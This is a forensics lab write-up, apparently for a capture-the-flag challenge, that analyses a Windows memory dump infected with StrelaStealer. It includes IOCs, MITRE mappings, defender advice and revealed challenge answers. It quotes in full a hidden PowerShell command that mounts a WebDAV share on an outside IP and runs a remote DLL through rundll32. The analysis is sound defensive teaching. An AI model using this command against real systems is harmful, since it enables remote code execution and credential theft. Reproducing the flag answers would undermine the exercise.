



## Scenario

A financial institution workstation with access to sensitive data triggered unusual SIEM alerts. A memory dump from the suspected machine has been provided. The task is to analyse the image for signs of compromise, trace the origin of the anomaly, and assess the scope of the breach.

---

## Methodology

### Process Tree Analysis — Suspicious Parent

The first plugin to run against any Windows memory image is `windows.pstree` — it immediately surfaces anomalous parent-child relationships that are invisible in a flat process list:

```bash
vol -f 192-Reveal.dmp windows.pstree
```



One relationship stands out immediately: `powershell.exe` (PID 3692) spawned by `wordpad.exe` (PID 4120). WordPad has no legitimate reason to spawn PowerShell. This pattern is consistent with a malicious document — likely a crafted RTF — opened in WordPad that triggered code execution, a known initial access technique targeting document viewers that lack macro security controls.

### Command Line Analysis — WebDAV Staging and DLL Execution

The full command line recovered from the PowerShell process reveals the complete second-stage delivery mechanism:
```
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ;
rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
````

Two operations execute in sequence. First, `net use` mounts a WebDAV share hosted at `45[.]9[.]74[.]32` on port 8888 — the `@8888` syntax is the Windows UNC path notation for WebDAV over non-standard ports, deliberately chosen to avoid port 80/443 inspection. The share name `davwwwroot` is a standard WebDAV root directory name used in this staging technique. Second, `rundll32` loads `3435.dll` directly from that mounted UNC path and calls the `entry` export — the second-stage payload executes entirely from the remote share without writing the DLL to disk first.

The `-windowstyle hidden` flag suppresses any console window, making the execution invisible to the user. This is T1218.011 — Signed Binary Proxy Execution via rundll32, using a legitimate Windows binary to load and execute attacker-controlled code.

### User Context — SID Resolution

Running `windows.getsids` and filtering on the malicious PID confirms the account context under which the attack executed:

```bash
vol -f 192-Reveal.dmp windows.getsids | grep "4120"
```



The process ran under the account `Elon` — a standard user account. The attacker had no elevated privileges at the time of execution, though STRELASTEALER's primary objective is credential theft rather than privilege escalation.

### Threat Intelligence — Malware Family Attribution

Submitting the C2 IP `45[.]9[.]74[.]32` to VirusTotal correlates it with known malicious infrastructure:


The IP is attributed to **STRELASTEALER** — an information stealer first documented in 2022 that specifically targets email client credentials from Outlook and Thunderbird. The malware hunts for credential stores and account configuration files, exfiltrating them to the C2. Given the victim is a financial institution workstation, any email-stored credentials or session tokens are high-value targets.

---

## Attack Summary

|Phase|Action|
|---|---|
|Initial Access|Malicious document opened in wordpad.exe (PID 4120) triggers code execution|
|Execution|wordpad.exe spawns powershell.exe (PID 3692) with `-windowstyle hidden`|
|C2 Staging|`net use` mounts WebDAV share at `45[.]9[.]74[.]32:8888\davwwwroot`|
|Second Stage|`rundll32` loads `3435.dll` from remote UNC path, calls `entry` export|
|Collection|STRELASTEALER harvests email client credentials from user `Elon`|

---

## IOCs

|Type|Value|
|---|---|
|C2 IP|45[.]9[.]74[.]32|
|C2 Port|8888|
|WebDAV Share|\45[.]9[.]74[.]32@8888\davwwwroot|
|Second Stage DLL|3435.dll|
|Malicious Process|powershell.exe (PID 3692)|
|Parent Process|wordpad.exe (PID 4120)|
|Compromised User|Elon|
|Malware Family|STRELASTEALER|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Phishing: Spearphishing Attachment|T1566.001|Malicious document delivered and opened in WordPad triggers initial execution|
|Command and Scripting Interpreter: PowerShell|T1059.001|Hidden PowerShell spawned by WordPad to mount WebDAV share and execute payload|
|System Binary Proxy Execution: Rundll32|T1218.011|rundll32 loads `3435.dll` from remote UNC path via WebDAV, calling `entry` export|
|Application Layer Protocol: Web Protocols|T1071.001|WebDAV over port 8888 used to stage and deliver second-stage DLL from C2|

---

## Defender Takeaways

**WordPad spawning PowerShell is an unambiguous detection signal** — there is no legitimate workflow in which `wordpad.exe` is a parent of `powershell.exe`. EDR process creation rules flagging this parent-child pair will catch this class of document-based execution regardless of the specific payload. The same logic applies broadly: Office applications, PDF readers, and document viewers spawning scripting interpreters should alert immediately.

**WebDAV over non-standard ports bypasses naive egress filtering** — the `@8888` UNC path syntax routes WebDAV traffic over port 8888 rather than 80 or 443, evading rules that only inspect standard web ports. Effective egress filtering must inspect all outbound traffic, not just common ports, and should alert on `net use` commands targeting external IPs.

**Fileless second-stage execution leaves minimal on-disk artefacts** — `3435.dll` was loaded directly from the remote UNC path without being written to the local filesystem. Standard AV scanning of local drives would find nothing. Detection requires either network-layer inspection of the WebDAV session or memory-resident detection of the loaded DLL — precisely the kind of visibility a memory dump analysis provides.

**STRELASTEALER targets email credentials specifically** — any workstation running Outlook or Thunderbird where this infection chain completed should be treated as having all stored email credentials compromised. Immediate rotation of email account passwords, revocation of any stored OAuth tokens, and audit of sent mail for exfiltration are the priority IR steps alongside containment.

---

<div class="qa-item"> <div class="qa-question-text">Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">powershell.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">4120</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">3435.dll</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">davwwwroot</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">T1218.011</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">Elon</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">STRELASTEALER</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>


